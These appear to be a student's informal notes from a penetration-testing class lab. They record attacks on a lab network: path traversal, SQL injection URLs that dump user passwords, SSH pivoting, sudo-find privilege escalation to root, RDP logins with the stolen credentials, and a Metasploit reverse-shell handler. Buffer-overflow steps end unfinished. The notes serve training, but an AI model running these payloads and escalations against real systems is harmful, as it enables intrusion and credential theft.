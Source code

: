 Target 1 : 10.50.90.39.220
`student@lin-ops:~$ nmap -T4 -Pn -sT -v 10.50.39.220`
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
`student@lin-ops:~$ nmap -v -sT -Pn -T4 --script http-enum 10.50.39.220 -p 80`
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|   /login.html: Possible admin folder
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
fire up browser 
in browser: 10.50.90.39.220
click on everything
in file to read box on get careeers tried command injection "; whoami" , sql "tom OR 1=" , or traversal which worked "../../../../../etc/passwd"
../../../../../etc/hosts
[view page source]
192.168.28.181 WebApp
know we know there is another network
apply for a position here has spot to upload but there is no way to run the uploads = dead end
employee sign in try command injection: didnt work, directory transersal: didnt work, try sql injection: `tom' or 1='1`'
use F12 > network > click login > click in request and throw it at the end of url insert ?
`http://10.50.39.220/login.php?username=tom%27+or+1%3D%271&passwd=tom%27+or+1%3D%271`
vulnerable to sql injection through get method
Array
(
    [0] => user2
    [name] => user2
    [1] => RntyrfVfNER78
    [pass] => RntyrfVfNER78
)
1Array
(
    [0] => user3
    [name] => user3
    [1] => Obo4GURRnccyrf
    [pass] => Obo4GURRnccyrf
)
1Array
(
    [0] => Lee_Roth
    [name] => Lee_Roth
    [1] => anotherpassword4THEages
    [pass] => anotherpassword4THEages
)

we only use base64 and rot13 in this class
user2 - EaglesIsARE78
user3 - Bob4THEEapples
Lee_Roth - anotherpassword4THEages
see user2 creds on scripts/development.py 

now lets get on this box
`student@lin-ops:~$ ssh -MS /tmp/red user2@10.50.39.220`
bash
sudo -l 
find / -type f -perm /6000 -ls 2>/dev/null
cat /etc/crontab

nothing of interest yet

$ bash
user2@PublicFacingWebsite:/$  for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=2.26 ms
64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=1.63 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.540 ms (IGNORE)

note: have to be in bash shell to perform ping sweep 

`student@lin-ops:~$ ssh -S /tmp/red red -O forward -D9050`
`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.172,181,190`
Nmap scan report for 192.168.28.172
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.28.181
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 192.168.28.190
Host is up (0.0010s latency).
All 1000 scanned ports on 192.168.28.190 are closed

lets tackle the port 80 on .181
set up another tunnel 
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1601:192.168.28.181:80`
(can run nikto but didnt quite get command to work on my end)
go to website
`http://0.0.0.0:1601/`
`http://0.0.0.0:1601/pick.php?product=4&Submit=Submit`
`http://0.0.0.0:1601/pick.php?product=4 OR 1=1 ;`
`http://0.0.0.0:1601/pick.php?product=7%20OR%201=1%20;`    find that it is product 7 to conduct sql injection
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20select%201,2,3;` to see how many columns that it needs and in this case it is 3
see that 1 , 3 , 2 is the way it prints 
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20table_schema,column_name,table_name%20FROM%20information_schema.columns;` put column_name in spot 2 so it pints at the end
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20user_id,name,username%20FROM%20siteusers.users`
Aaron - apasswordyPa$$word
user2 - EaglesIsARE78
user3 - Bob4THEEapples
Lee_Roth - Lroth - anotherpassword4THEages
on .181 webapp

`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1602:192.168.28.181:22`
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1603:192.168.28.172:22`
 now lets try to brute force pwds
 
none seem to work on the .181
Aaron works on .172bash

`student@lin-ops:~$ ssh -MS /tmp/blue Aaron@0.0.0.0 -p 1603`
`student@lin-ops:~$ ssh Aaron@0.0.0.0 -p 1603`
`Aaron@RoundSensor:/$ cat /etc/crontab`
see weird crontabs

sudo -l
    (ALL) NOPASSWD: /usr/bin/find
[use the ntfo](https://gtfobins.github.io/#)https://gtfobins.github.io/#
use website 
Find sudo command
Aaron@RoundSensor:/$ find . -exec /bin/sh \; -quit
whoami >>> root
ls -lisa /root
cat the files
see a nc listener set up tried to call it 
`user2@PublicFacingWebsite:/$ nc 192.168.28.172 7008`
nothing..

`student@lin-ops:~$ ssh -S /tmp/red red -O cancel -D9050`
`student@lin-ops:~$ ssh -S /tmp/blue blue -O forward -D9050`
`# bash`
`root@RoundSensor:/root# `

`root@RoundSensor:/root# for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done`
64 bytes from 192.168.28.172: icmp_seq=1 ttl=64 time=0.039 ms
64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=1.57 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.989 ms (ignore)

`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.179`
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
9999/tcp open  abyss

know its a windows box bc of all these ports
`student@lin-ops:~$ proxychains nc 192.168.28.179 9999`
secure server
this is the only program we did the buffer overflow exploit

`student@lin-ops:~$ ssh -S /tmp/blue blue -O forward -L 1604:192.168.28.179:3389`
`student@lin-ops:~$ ssh -S /tmp/blue blue -O forward -L 1605:192.168.28.179:9999`

student@lin-ops:~$ xfreerdp /u:Lroth /v:0.0.0.0:1604 /p:anotherpassword4THEages -dynamic-resolution +glyph-cache +clipboard

on windows box
open up cmd 
netstat -ano
tasklist /svc (find pid for secure server)
tasklist /svc | findstr /i "secure"
netstat -ano | findstr "3064"
secure server listening on 9999
open up services
see secure server
open task scheduler
see trigger , actions go to directory
lets make our own version putty.exe bc can add stuff in directory
open regedit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run and RunOnce 

lets go Putty route

linops:
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > exploit
student@lin-ops:~/Desktop/Security$ ./secureserverBuffo2.py 


dont need cookiestealer
review linux and windows buffer overflow
run msfvenom using 0.0.0.0 bc that what we used in 


linux buffer overflow reveiw
./func
find user input vs command input
user input = <<<
./func <<<$(echo "")
try to crash
./func <<<$(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
student@lin-ops:~/Desktop/Security$ gdb ./func
gdb-peda$ run <<<$(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
EIP: 0x31634130 ('0Ac1') (put in wiremask 62 = offset)
0x31634130 in ?? ()

(gdb) info proc map
im lost



going over stealing keys after uploading webshell.py




